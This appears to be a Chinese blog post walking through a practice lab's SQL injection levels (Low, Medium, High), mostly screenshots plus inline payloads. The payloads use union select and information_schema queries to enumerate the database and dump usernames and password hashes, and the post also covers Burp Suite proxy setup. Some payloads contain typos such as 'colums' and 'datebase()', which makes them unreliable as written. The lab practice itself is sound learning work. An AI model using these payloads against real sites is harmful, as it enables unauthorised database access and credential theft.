 ```yaml
---
layout:     post
title:      SQL注入练习
subtitle:   SQL注入
date:       2021-03-29
author:     BlackFrog-hub
header-img: img/sql_bg.jpg
catalog: true
tags:
    - SQL注入
      
---
```

### Low

##### 判断是否存在注入
![](http://blackfrog.top/img/sql_low_1.png)

##### 猜测字段`1' order by 2 #`
![](http://blackfrog.top/img/sql_low_2.png)
![](http://blackfrog.top/img/sql_low_3.png)

##### 查看数据库名`1' union select user(),database() #`
![](http://blackfrog.top/img/sql_low_4.png)

##### 查看表名`1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()`
![](http://blackfrog.top/img/sql_low_5.png)

##### 查看`users`表中的列名`1 union select 1,group_concat(column_name) from information_schema.colums where table_name=users`
![](http://blackfrog.top/img/sql_low_6.png)

##### 查看`users`表中`user``password`, `1' union select group_concat(user),group_concat(password) from users #`
![](http://blackfrog.top/img/sql_low_7.png)

### Medium

##### `Burp Suite` 启动之后，默认分配的代理地址和端口是`127.0.0.1 ：8080`,可以从`Burp Suite`的`proxy`选项卡的`options`上查看
![](http://blackfrog.top/img/sql_med_23.png)

##### Firefox浏览器代理配置，找到`连接设置`-->`手动代理配置`，填写`127.0.0.1`，端口填写`8080`完成FireFox的代理配置
![](http://blackfrog.top/img/sql_med_1.png)

##### 在浏览器中成功访问`http://burp` 说明代理设置成功
![](http://blackfrog.top/img/sql_med_22.png)

##### 判断是否存在注入`1' or 1=1` 报错提示被转义
![](http://blackfrog.top/img/sql_med_2.png)
![](http://blackfrog.top/img/sql_med_3.png)

#####  再次输入`1 or 1=1`成功说明存在注入点,判断此处为数字类型的注入
![](http://blackfrog.top/img/sql_med_4.png)
![](http://blackfrog.top/img/sql_med_5.png)

##### 接下来猜测字段数 `1 order by 2`没报错,继续输入`1 order by 3` 报错,可以确定含有两个字段
![](http://blackfrog.top/img/sql_med_6.png)
![](http://blackfrog.top/img/sql_med_8.png)
![](http://blackfrog.top/img/sql_med_7.png)

##### 通过`union联合查询`查看列`1 union select 1,2`
![](http://blackfrog.top/img/sql_med_9.png)
![](http://blackfrog.top/img/sql_med_10.png)

##### 获取数据库名`1 union select 1,datebase()`
![](http://blackfrog.top/img/sql_med_12.png)
![](http://blackfrog.top/img/sql_med_11.png)

##### 获取表名`1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()`
![](http://blackfrog.top/img/sql_med_13.png)
![](http://blackfrog.top/img/sql_med_14.png)
###### 获取列名
![](http://blackfrog.top/img/sql_med_16.png)
![](http://blackfrog.top/img/sql_med_17.png)

##### 获取`user`和 `password`等字段的内容`1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users`
![](http://blackfrog.top/img/sql_med_18.png)
![](http://blackfrog.top/img/sql_med_19.png)
![](http://blackfrog.top/img/sql_med_20.png)

### Hight

##### 输入`1'`
![](http://blackfrog.top/img/sql_hight_1.png)

##### 输入`1' #` 可以判定为字符型
![](http://blackfrog.top/img/sql_hight_2.png)

##### 与前面俩等级一样的思路猜字段，获取数据库名
![](http://blackfrog.top/img/sql_hight_5.png)
![](http://blackfrog.top/img/sql_hight_6.png)
![](http://blackfrog.top/img/sql_hight_7.png)

##### 获取表名
![](http://blackfrog.top/img/sql_hight_9.png)
![](http://blackfrog.top/img/sql_hight_8.png)
![](http://blackfrog.top/img/sql_hight_10.png)

##### 获取`users`表列名
![](http://blackfrog.top/img/sql_hight_11.png)
![](http://blackfrog.top/img/sql_hight_12.png)

##### 获取`users`表`user`字段和`password`字段内容
![](http://blackfrog.top/img/sql_hight_13.png)
![](http://blackfrog.top/img/sql_hight_14.png)
![](http://blackfrog.top/img/sql_hight_15.png)

